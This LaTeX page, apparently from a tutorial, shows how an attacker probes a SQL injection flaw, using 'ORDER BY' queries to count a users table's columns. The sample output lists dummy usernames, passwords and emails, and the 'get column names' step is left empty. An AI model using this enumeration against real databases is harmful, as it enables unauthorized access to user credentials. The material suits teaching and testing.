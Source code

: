 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
How can Attacker take profit of this vulnerability:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  List total number of column of the table

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users order by 100}\KeywordTok{;}
\CommentTok{#Output}
\ExtensionTok{ERROR}\NormalTok{ 1054 (42S22)}\BuiltInTok{:}\NormalTok{ Unknown column }\StringTok{'100'}\NormalTok{ in }\StringTok{'order clause'}

\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users order by 4}\KeywordTok{;}
\CommentTok{#Output}
\ExtensionTok{+----+----------+----------+---------+}  
\KeywordTok{|} \FunctionTok{id} \KeywordTok{|} \ExtensionTok{username} \KeywordTok{|} \ExtensionTok{password} \KeywordTok{|} \ExtensionTok{email}   \KeywordTok{|}  
\ExtensionTok{+----+----------+----------+---------+}  
\KeywordTok{|} \ExtensionTok{2}  \KeywordTok{|} \ExtensionTok{zeto}     \KeywordTok{|} \ExtensionTok{test1234} \KeywordTok{|} \ExtensionTok{a@a.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{3}  \KeywordTok{|} \ExtensionTok{rob2}     \KeywordTok{|} \ExtensionTok{test3434} \KeywordTok{|} \ExtensionTok{b@b.com} \KeywordTok{|}  
\KeywordTok{|} \ExtensionTok{1}  \KeywordTok{|} \ExtensionTok{arif2}    \KeywordTok{|} \ExtensionTok{test2331} \KeywordTok{|} \ExtensionTok{c@c.com} \KeywordTok{|}  
\ExtensionTok{+----+----------+----------+---------+}  
\end{Highlighting}
\end{Shaded}

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/sql-error-based-url-by-100} \caption{sql error based order by 100}\label{fig:unnamed-chunk-8}
   \end{figure}
\item
  Get column names


\end{enumerate}
\end{document}
